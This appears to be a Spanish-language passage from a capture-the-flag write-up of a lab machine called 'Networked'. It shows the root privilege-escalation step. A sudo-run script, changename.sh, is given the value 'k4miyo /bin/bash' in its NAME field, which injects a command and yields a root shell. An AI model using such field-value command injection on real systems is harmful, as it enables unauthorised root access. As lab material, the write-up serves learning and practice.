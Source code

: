 Tenemos lo necesario para convertirnos en **root**, así que vamos a ejecutar nuevamente el script:

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
k4miyo /bin/bash
interface PROXY_METHOD:
k4miyo
interface BROWSER_ONLY:
k4miyo
interface BOOTPROTO:
k4miyo
[root@networked network-scripts]# whoami
root
[root@networked network-scripts]#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
